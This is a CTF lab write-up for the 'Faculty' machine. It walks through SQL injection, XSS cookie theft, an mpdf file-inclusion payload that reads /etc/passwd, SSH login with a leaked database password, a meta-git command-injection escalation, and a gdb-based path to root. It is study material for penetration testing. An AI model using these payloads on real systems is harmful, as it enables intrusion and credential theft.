

# Faculty


**Jul 2, 2022**

Login page on port 80



This input has a SQL Injection vulnerability

Post request:


File fuzzing on the application after login, using the cookie:


There are some names in “faculty.php”.


The admin page has a login input, we can try SQL Injection again:


[https://www.cybersecuritywebtest.com/exploits-vulnerability/school~faculty~scheduling~system~1-48921](https://www.cybersecuritywebtest.com/exploits-vulnerability/school~faculty~scheduling~system~1-48921)

The XSS vulnerability on courses page can be applied:


XSS trigged. 


XSS cookie stealing.

```python

```


Dumping admin database with SQLMAP.


Twitter mpdf report vulnerability

[https://medium.com/@jonathanbouman/local-file-inclusion-at-ikea-com-e695ed64d82f](https://medium.com/@jonathanbouman/local-file-inclusion-at-ikea-com-e695ed64d82f)

To explore just add a TAG to the POST request and set the extract file to download the data: The response is the generated file. 


```jsx
<h1>aaaa</h1><annotation file="/etc/hosts" content=\"/etc/passwd\" icon=\"Graph\" title=\"Attached File: /etc/passwd\" pos-x=\"195\" /><h1>im here</h1>
```

Find the tag in PDF and click on the yellow mark:


This “passwd” was extracted from the PDF yellow mark.


Users on the machine:


The “db_connect.php” has a password of the MYSQL database, we can try use this password with one of users to login o the SSH


The login with “gbyolo” worked with success!

```jsx
$conn= new mysqli('localhost','sched','Co.met06aci.dly53ro.per','scheduling_db')or die("Could not connect to mysql".mysqli_error($con));
```

gbyolo SSH session:


To migrate to the user developer the “sudo -l” command leak some information that our user gbyolo can run commands as developer user, we found a hackerone report that we can run arbitrary command using the meta-git.

[https://hackerone.com/reports/728040](https://hackerone.com/reports/728040)


The file was created as developer user.


After send the payload the developer user was spawned.


```jsx
sudo -u developer /usr/local/bin/meta-git clone 'sas||bash -p'
```

The user developer has an script that run with crontab.


### Root

There a GDB with debug permission.


We need to find a file running as root and try execute system commands:


Attach the GDB execution

```jsx
gdb attach PID
```

Now you just need to get a reverse shell or change the “/bin/bash” permission.

